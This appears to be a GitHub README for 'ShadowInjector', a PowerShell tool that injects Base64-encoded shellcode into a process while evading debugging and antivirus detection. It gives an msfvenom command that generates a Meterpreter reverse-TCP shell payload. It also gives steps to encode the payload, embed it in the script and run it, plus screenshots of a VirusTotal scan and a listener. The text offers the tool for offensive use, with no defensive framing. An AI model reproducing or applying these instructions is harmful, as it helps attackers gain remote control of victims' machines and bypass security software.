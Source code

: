 # ShadowInjector
A sophisticated PowerShell script that stealthily injects Base64-encoded shellcode into the target process, featuring anti-debugging techniques to evade detection.



## Running the Script
You can create the malicious payload as follows.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f csharp

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Creating%20a%20payload.png)

Perform the encode process by pasting the created shellcode into the "# shellcode will be written here" section.
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/shellcode_encode.png)

Add the base64 encoded payload to the "add_shell_code_here" section of the script.

To run the script, open a PowerShell window and execute the following command:

.\ShadowInjector.ps1
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/virustotal%20result.png)

![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/Listening.png)

## Virustotal Result
![](https://github.com/okankurtuluss/ShadowInjector/blob/okankurtuluss/main/screenshots/virustotal.png)


